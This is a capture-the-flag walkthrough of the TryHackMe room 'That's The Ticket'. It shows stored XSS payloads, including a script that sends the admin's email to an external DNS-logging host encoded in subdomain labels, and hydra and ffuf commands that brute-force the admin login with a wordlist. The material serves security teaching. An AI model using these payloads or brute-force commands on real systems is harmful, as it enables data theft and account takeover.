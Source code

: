 ```yaml
---
date: 2025-02-10
categories: [CTF, THM]
title: "THM - That's The Ticket"
tags: ['hydra', 'ffuf', 'nmap', 'privilege escalation', 'rce', 'xss']

description: "That's The Ticket - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# THM - That's The Ticket

NMAP

![image1](../resources/59b71bff8cea4b2c8d91bf4ce57eed3c.png)
 
- Visit website:
Register an account

- Inspecting the message field:

![image2](../resources/12ab7561f7d54f75b03c89d6564e4636.png)

- We can try XSS:
(Close off the existing textarea tag first)

```bash
</textarea> <script>alert(1)</Script> 

```
or use prompt(1) instead


![image3](../resources/113c81c49dd64c40bd8894c342b46aae.png)

- It's vulnerable

- The cookies are set as HttpOnly and could not be extracted by XSS directly

![image4](../resources/376d11080e20470585cf8474553ea53d.png)

- Room hint:

![image5](../resources/87aab15161f949da98674f2f057ca08f.png)


![image6](../resources/87923bcc9a264223a3afe3baeb009864.png)

- Using the XSS vulnerability, do a call back to the DNS logger (above)

`</textarea> <img src="http://079a105aecaee7a7a858eca97499a96e.log.tryhackme.tech">`

- Received 4 hits (3 from us and once from the server - maybe admin)


![image7](../resources/766f4dcc91084210ac47ae6e45a4b8b0.png)

- Get Admin's email:

![image8](../resources/351e6e93882347dda4d8ab127b3faefb.png)

```
</textarea>
<script>
    var email_first = document.getElementById("email").innerHTML.split("@")[0];
    var email_second = document.getElementById("email").innerHTML.split("@")[1];
    var href = "http://localhost." + email_first + "." + email_second + ".40a18b725233ea050562beb6ceaef55d.log.tryhackme.tech/test";
    new Image().src = href;
</script>

```

![image9](../resources/3d86e79e8f894e749ec60caa5c146c74.png)

Don't need subdomain in there really (localhost) - still works


![image10](../resources/41cfa3cce05a4e879e3cf35ad675c754.png)

- Got admin email:
**adminaccount@itsupport.thm**

- Bruteforce the login site:
```bash
hydra -l adminaccount@itsupport.thm -P /usr/share/wordlists/rockyou.txt 10.10.41.5 http-post-form "/login:email=adminaccount@itsupport.thm&password=^PASS^:Invalid"

ffuf -w /usr/share/wordlists/rockyou.txt -d "email=adminaccount@itsupport.thm&password=FUZZ" -u http://10.10.190.207/login -fw 475 -H "Content-Type: application/x-www-form-urlencoded"

```
**<u>Another way:</u>**

Clusterbomb - Save POST request from Burp and edit the parameters

```bash
ffuf -request post.txt -request-proto http -mode clusterbomb -w user.txt:UFUZZ -w /usr/share/wordlists/rockyou.txt:PFUZZ -fc 302

```

![image11](../resources/150619e150ac46e891d9019105a8d2f6.png)

**123123**

- Log in with admin:

![image12](../resources/c406ef06134546a4b16cbf57891bd4c6.png)


![image13](../resources/61fb5c9ca2a343c68516b8f576ea5cc6.png)